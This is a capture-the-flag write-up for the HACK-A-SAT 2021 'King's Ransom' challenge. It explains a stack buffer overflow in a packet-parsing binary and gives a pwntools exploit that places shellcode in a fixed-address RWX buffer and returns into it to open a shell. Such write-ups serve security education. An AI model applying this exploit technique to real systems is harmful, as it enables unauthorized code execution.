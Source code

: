 # HACK-A-SAT 2021: King's Ransom

* **Category:** Presents from Marco
* **Points:** 214
* **Solves:** 12
* **Description:**

> A vulnerable service with your "bank account" information running on the target system. Too bad it has already been exploited by a piece of ransomware. The ransomware took over the target, encrypted some files on the file system, and resumed the executive loop.
>
> Follow the footsteps.
>
> Ticket
>
> Present this ticket when connecting to the challenge:
>
> ticket{zulu393656golf2:GDx0CmQXV(...)UcvKdOLA}
>
> Don't share your ticket with other teams.
>
> Connecting
>
> Connect to the challenge on:
>
> wealthy-rock.satellitesabove.me:5010
>
> Using netcat, you might run:
>
> nc wealthy-rock.satellitesabove.me 5010
>
> Files
>
> You'll need these files to solve the challenge.
>
> https://static.2021.hackasat.com/lyj5rhtjfw992dn0f976ra4aglss
>
> https://static.2021.hackasat.com/t5qefn4567j7zpld6xuqrhay6hlj

The files are `challenge` and `libc.so`.

## Write-up

_Write-up by Solar Wine team_

The binary is a program which reads on stdin and writes on stdout. It parses packets of the form:

```c
struct __attribute__((aligned(8))) st
{
  char magic1;
  char magic2;
  unsigned __int16 len;
  __int16 crc16;
  _BYTE x;
  _BYTE y;
  char ptr[];
};
```

`x` and `y` are indexes into a 2D table which points to handling functions, which parse the packets

One of the functions is vulnerable to a stack based buffer overflow:

```c
 __int64 __fastcall update_floats_1percent(st *a1)
{
  float v1; // xmm0_4
  float v2; // xmm0_4
  float v3; // xmm0_4
  float flt_from_param[3]; // [rsp+14h] [rbp-Ch] BYREF

  get_data_and_free(a1, flt_from_param);
  v1 = 0.01 * flt_from_param[0] + floats[0];
  floats[0] = v1;
  v2 = 0.01 * flt_from_param[1] + floats[1];
  floats[1] = v2;
  v3 = 0.01 * flt_from_param[2] + floats[2];
  floats[2] = v3;
  return 1LL;
}
```

The function `get_data_and_free` reads the packet payload and copies it into `flt_from_param` without checking the length.
As there's no stack cookie, overwriting the return address is trivial.

Thankfully, the program allocates RWX memory at a fixed address, `0x12800000`:

```c
 global_buffer = mmap((void *)0x12800000, 0x1000uLL, PROT_EXEC|PROT_WRITE|PROT_READ, MAP_ANON|MAP_PRIVATE, 0, 0LL);// RWX
```

This buffer can be written/read into by sending appropriate packets.
So we can write a shellcode and return to this address to get a shell:

```python
pwnlib.context.context.update(binary="./challenge")
shellcode = pwnlib.asm.asm(pwnlib.shellcraft.amd64.linux.sh())
clt.write_to_global(shellcode)

# Trigger stack overflow
clt.write_pkt(1, 1, b"Aa0Aa1Aa2Aa3Aa4Aa5Aa"+struct.pack('<Q', 0x12800000))
pwnlib.term.init()
clt.s.interactive()
```

The flag is then in `flag1.txt`.